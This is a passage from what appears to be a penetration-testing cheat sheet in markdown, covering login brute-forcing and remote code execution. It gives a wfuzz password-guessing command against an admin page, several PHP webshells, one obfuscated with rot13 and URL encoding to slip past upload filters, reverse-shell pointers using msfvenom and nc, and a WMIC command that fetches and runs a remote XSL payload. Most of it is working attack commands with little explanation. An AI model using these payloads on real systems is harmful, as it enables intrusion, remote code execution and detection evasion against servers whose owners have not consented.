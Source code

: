 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
<pre>openssl aes-256-cbc -d -in ../miau.txt -out result.txt -k friends</pre>

<a name="rce"></a><h2> RCE </h2>

<a name="phprce"></a><h3>PHP RCE</h3>

test: 

```<?php phpinfo(); ?>```

simple shell: 

```<?php system($_GET["c"]); ?>```

```<?php `$_GET["c"]`; ?>```

file upload:

```<?php file_put_contents('/var/www/html/uploads/test.php', '<?php system($_GET["c"]);?>'); ?>```

file upload evasion:  rot13 + urlencode

```<?php $payload="%3C%3Fcuc%20flfgrz%28%24_TRG%5Bp%5D%29%3B%3F%3E"; file_put_contents('/var/www/html/uploads/test8.php', str_rot13(urldecode($payload))); ?>```


<a name="rcewebshell"></a><h3>RCE via webshell</h3>

- All pentest monkey reverse shells: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- msfvenom x86/linux/shell_reverse_tcp -f elf

- Metasploit `web_delivery` module

- which wget | nc <ip> <port>
 
<a name="rcewmic"></a><h3>RCE via WMIC</h3>

Powershell without powershell:

Generate payload with web_delivery

![powershellless1](https://user-images.githubusercontent.com/7115563/40374533-8da00e10-5de9-11e8-888e-3b1eaccb28b0.png)

Encode Payload

![powershellless2](https://user-images.githubusercontent.com/7115563/40374540-908e0ca8-5de9-11e8-9002-5f03193b10a5.png)

Include payload in xsl file

![powershellless3](https://user-images.githubusercontent.com/7115563/40374546-92dcda84-5de9-11e8-99c8-9066ae129644.png)

<pre>wmic process get brief /format:"https://raw.githubusercontent.com/adon90/pentest_compilation/master/nops.xsl"</pre>

![powershellless4](https://user-images.githubusercontent.com/7115563/40375266-73770028-5deb-11e8-92da-952692727bec.png)

<a name="lolbins"></a><h3>LOLBINS</h3>

<b>SyncAppvPublishingServer</b>
```
